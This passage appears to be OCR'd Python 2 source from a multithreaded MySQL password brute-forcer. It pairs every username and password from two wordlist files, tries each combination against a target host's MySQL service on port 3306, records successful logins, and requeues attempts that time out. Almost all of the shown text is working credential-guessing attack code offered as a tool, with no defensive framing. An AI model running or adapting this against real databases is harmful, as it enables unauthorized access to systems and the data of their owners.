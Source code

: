     def get_queue(self):
        with open(self.userfile, 'r') as f:
            ulines = f.readlines()
        with open(self.passfile, 'r') as f:
            plines = f.readlines()

        for name in ulines:
            for pwd in plines:
                name = name.strip()
                pwd = pwd.strip()
                self.qlist.put(name + ':' + pwd)

    def thread(self):
        while not self.qlist.empty():
            name,pwd = self.qlist.get().split(':')
            try:
                conn = MySQLdb.connect(host=self.host, user=name, passwd=pwd, db='mysql', port=3306)
                if conn:
                    # time.sleep(0.05)
                    conn.close()
                s = "[OK] %s:%s" % (name,pwd)
                self.show_log(self.host,s)
                self.result.append(s)
            except socket.timeout:
                self.show_log(self.host,"Timeout")
                self.qlist.put(name + ':' + pwd)
                time.sleep(3)
            except Exception, e:
                error = "[Error] %s:%s" % (name,pwd)
                self.show_log(self.host,error)
                pass

    def run(self):
        self.get_queue()
        starttime = time.time()

        threads = []
        for x in xrange(1,self.threadnum+1):
            t = threading.Thread(target=self.thread)
            threads.append(t)
            t.setDaemon(True) #主线程完成后不管子线程有没有结束，直接退出
            t.start()

        try:
            while True:
                if self.qlist.empty():
                    break
                else:
                    time.sleep(1)
        except KeyboardInterrupt:
            self.is_exit = True
            print "Exit the program..."
        print "Waiting..."
        time.sleep(5)

